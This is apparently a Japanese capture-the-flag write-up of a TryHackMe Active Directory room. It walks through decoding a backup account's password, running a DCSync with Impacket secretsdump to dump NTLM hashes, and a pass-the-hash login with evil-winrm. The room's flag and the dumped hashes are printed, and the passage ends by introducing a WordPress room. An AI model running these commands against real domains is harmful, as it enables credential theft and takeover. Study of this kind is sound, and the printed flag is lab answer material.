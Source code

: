 
最後に、得られた値がBase64dエンコードされている可能性があるので解読すると`backup2517860`がパスワードとわかる
```sh
┌──(kali㉿kali)-[~/7DaysHacking/Day6]
└─$ cat backup_credentials.txt|base64 -d                        
backup@spookysec.local:backup2517860
```


### DCSync攻撃
DCSync攻撃とは、ドメインコントローラーのバックアップ権限を持っているユーザーを利用して、バックアップ時にパスワード情報を抜き取る。
ActiveDirectoryでは、パスワード情報などを暗号化したNTLMハッシュとして保管されている。

#### Impacketを利用したDCsync
Impacketのツールを利用して、DCsyncを実行
```sh
┌──(kali㉿kali)-[~/7DaysHacking/Day6]
└─$ ./secretsdump.py -just-dc-ntlm backup@spookysec.local -outputfile spookysec
Impacket v0.11.0 - Copyright 2023 Fortra

Password:backup2517860
```
結果として、NTLMハッシュが出力され、AdminのパスワードのNTLMハッシュ値`0e0~~4fc`が取得できる
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
~~~
~~~
```


### Pass the HashでAdminをハック
NTLMでは、ユーザー名とハッシュ化されたパスワードが保管されている。
`Pass the Hash`ではユーザー情報とハッシュをそのまま利用して認証を済ましてしまうNTLM認証の脆弱性を突いて、ユーザーになりすます。

Evil-WinRMというツールを利用することでPass the Hash攻撃を行ってroot.txtを取得
```sh
┌──(kali㉿kali)-[~/7DaysHacking/Day6]
└─$ evil-winrm -i spookysec.local -u Administrator -H 0e0363213e37b94221497260b0bcb4fc

~~~
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ../Desktop/root.txt
TryHackMe{4ctiveD1rectoryM4st3r}
```


### Day6勉強したこと
- ActiveDirecrotyは組織のPCなどの管理を行うサービス
- ActiveDirectoryにはKerberos認証を利用されている
- Kerberosで事前認証をOFFにすると脆弱性となりうる
- 認証のチケットと認可のチケットを利用するが認証チケットからパスワードが解析される可能性あり
- ActiveDirectoryのbackup権限を持つユーザーを奪われるとパスワード全体が流出する可能性あり

## Day7
[blog](https://tryhackme.com/room/blog)  
ブログなどを公開するためのサービスであるWordPressに対して攻撃をする。
WordPressに対して、自書攻撃をしてアプリにログインをしたり、脆弱性からサーバーのOSユーザーをハックしてから権限昇格をする。
